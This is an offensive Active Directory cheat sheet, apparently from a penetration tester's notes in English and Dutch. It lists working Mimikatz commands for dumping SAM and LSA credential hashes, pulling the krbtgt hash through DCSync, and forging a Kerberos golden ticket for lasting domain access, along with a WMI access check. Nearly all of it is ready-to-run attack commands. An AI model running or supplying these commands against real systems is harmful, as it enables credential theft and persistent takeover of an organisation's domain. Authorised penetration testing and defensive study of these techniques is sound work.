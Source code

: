 #### Mimikatz dump from SAM
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

or

```
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv
#Start mimikatz as administrator
privilege::debug
token::elevate
lsadump::sam SamBkup.hiv SystemBkup.hiv
```

#### Mimikatz dump lsa (krbtgt to)
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

# Domain persistence
## Golden ticket
Golden tickets zijn nagemaakte TGT tickets. TGT tickets worden gebruikt om TGS tickets aan te vragen bij de KDC(DC). De kerberos Golden Ticket is een valid TGT omdat deze ondertekend is door het KRBTGT account. Als je de hash van de KRBTGT account kan achterhalen door de hashes te dumpen op de Domain controller en deze hash niet wijzigt is het mogelijk om weer een TGT aan te vragen bij de volgende penetratietest en volledige toegang tot het domein te verkrijgen.

https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets

#### Dump hashes - Get the krbtgt hash
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

#### Make golden ticket
Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process
To get the SID use ```Get-DomainSID``` from powerview
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

#### Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

#### Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```
